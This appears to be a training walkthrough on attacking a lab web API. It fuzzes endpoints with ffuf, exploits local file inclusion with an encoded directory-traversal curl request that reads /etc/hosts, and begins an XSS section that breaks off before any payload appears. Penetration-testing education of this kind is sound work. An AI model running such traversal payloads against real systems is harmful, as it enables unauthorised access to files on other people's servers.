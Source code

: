 ## API Endpoint Fuzzing

Use ffuf to discover endpoints:

`ffuf -w "/path/to/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'`


## Example output shows a valid endpoint:

`download [Status: 200, Size: 71, Words: 5, Lines: 1]`

**Interacting with the Endpoint:**

`curl http://<TARGET IP>:3000/api/download`

`{"success":false,"error":"Input the filename via /download/<filename>"}`

We need to provide a filename.


## Exploiting LFI

Attempt directory traversal to read system files:

`curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"`

**Example output:**

<pre>127.0.0.1 localhost
127.0.1.1 nix01-websvc
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters</pre>


✅ The API is vulnerable to Local File Inclusion.


# Cross-Site Scripting (XSS)

XSS vulnerabilities allow attackers to execute arbitrary JavaScript in a victim’s browser, which can lead to complete web application compromise if combined with other flaws.

**Target API**

Target: http://<TARGET IP>:3000/api/download

**Check reflection behavior:**

<pre>http://<TARGET IP>:3000/api/download/test_value
 Message: 'test_value not found!'</pre>

test_value is reflected in the response → potential XSS.

## Testing a Script Payload
